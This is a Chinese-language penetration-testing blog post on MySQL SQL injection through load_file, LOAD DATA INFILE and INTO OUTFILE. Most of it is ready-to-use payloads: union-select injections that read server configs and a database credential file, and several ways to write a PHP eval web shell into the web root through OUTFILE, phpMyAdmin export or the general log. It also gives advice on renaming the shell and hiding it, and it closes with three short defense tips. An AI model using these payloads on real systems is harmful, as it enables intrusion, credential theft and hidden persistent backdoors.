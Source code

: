 ```yaml
---
draft: false
date: 2016-06-20 08:10:27
title: SQL 注入之 load_file 和 into outfile(MySQL)
description: 
categories:
  - Pentest
tags:
  - injection
  - getshell
---
```


### 0x00 load_file() 读文件
* 条件:

```
1. 要有file_priv权限: show global variables like '%secure%';
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 load data local infile 读文件
* 条件:

```
MySQL8 中需要 SET GLOBAL local_infile=1;
```

* 语句

```
LOAD DATA LOCAL INFILE 'D:/pet.txt' INTO TABLE pet FIELDS TERMINATED BY '';
select * from pet;
```

### 0x02 into outfile getshell
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用

```
id=1 union select "<? phpinfo();>" into outfile("C:/phpStudy/WWW/a.php")

id=1 into outfile 'C:/phpStudy/WWW/a.php' columns terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' fields terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines starting by '<? phpinfo();>';
```

* phpMyAdmin 导出数据 getshell 

登陆phpMyAdmin  
```
use test;  选择数据库为test
create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
insert into aaa values("<?php @eval($_POST['c']);?>"); --在 aaa 中写入 shell 内容
select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将 aaa 中的数据导出到文件 a.php
```

localhost:80/a.php能访问  
```
drop aaa; --删除建立的表
```

然后菜刀连接  
```ini
菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
```

* phpMyAdmin 日志 getshell

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'C:/phpStudy/WWW/a.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```

### 0x03 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件